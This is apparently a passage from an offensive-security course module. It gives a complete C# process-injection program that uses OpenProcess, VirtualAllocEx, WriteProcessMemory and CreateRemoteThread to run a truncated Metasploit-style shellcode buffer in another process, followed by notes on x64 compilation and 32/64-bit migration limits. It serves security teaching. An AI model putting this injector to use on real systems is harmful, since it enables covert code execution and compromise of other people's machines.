 ```
using System;
using System.Runtime.InteropServices;


namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        static void Main(string[] args)
        {
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            byte[] buf = new byte[591] {
            0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
            ....
            0x0a,0x41,0x89,0xda,0xff,0xd5 };
                        IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```

> Listing 13 - Full code

Before compiling the project, we need to remember to set the CPU architecture to x64, since we are injecting into a 64-bit process.

We'll note that 64-bit versions of Windows can run both 32 and 64-bit processes. This means that we could face four potential migration paths: 64-bit -> 64-bit, 64-bit -> 32-bit, 32-bit -> 32-bit and 32-bit -> 64-bit.

The first three paths will work as expected. However, the fourth (32-bit -> 64-bit) will fail, since _CreateRemoteThread_ does not support this. One [workaround](https://github.com/OpenWireSec/metasploit/blob/master/external/source/meterpreter/source/common/arch/win/i386/base_inject.c) (which is what advanced implants like Meterpreter do) is to execute the call directly in assembly. The technique involves performing a translation from 32-bit to 64-bit long mode inside the 32-bit process. This is not officially supported and requires a lot of custom assembly code. This approach is outside the scope of this Module.

